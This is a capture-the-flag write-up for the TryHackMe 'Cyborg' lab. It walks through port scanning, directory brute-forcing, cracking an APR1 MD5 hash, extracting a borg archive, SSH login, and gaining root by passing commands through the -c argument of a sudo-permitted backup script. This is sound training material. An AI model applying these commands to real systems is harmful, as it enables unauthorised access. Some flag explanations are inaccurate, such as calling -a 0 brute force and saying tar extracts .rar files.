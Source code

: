 # TRYHACKME – Cyborg (CTF)

![Cyborg.png](img/Cyborg.png)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![nmap-scan#1.png](img/nmap-scan#1.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![gobuster-scan#1.png](img/gobuster-scan#1.png)

Directories found:

/admin

/etc

![etc-dir#1.png](img/etc-dir#1.png)

![etc-squid-dir#1.png](img/etc-squid-dir#1.png)

![md5-hash#1.png](img/md5-hash#1.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![hash-identifier#1.png](img/hash-identifier#1.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![hashcat#1.png](img/hashcat#1.png)

![admin-index-page-file#1.png](img/admin-index-page-file#1.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![list-zip-file#1.png](img/list-zip-file#1.png)

![unzip-tar-file#1.png](img/unzip-tar-file#1.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![cat-file#1.png](img/cat-file#1.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![ssh#1.png](img/ssh#1.png)

**`cat user.txt`**

![cat-file#2.png](img/cat-file#2.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![list-user-privileges#1.png](img/list-user-privileges#1.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![mv-dir-mp3backups#1.png](img/mv-dir-mp3backups#1.png)

**`cat backup.sh`**

![cat-file#3.png](img/cat-file#3.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![run-file-arguments#1.png](img/run-file-arguments#1.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![run-file-aguments#2.png](img/run-file-aguments#2.png)

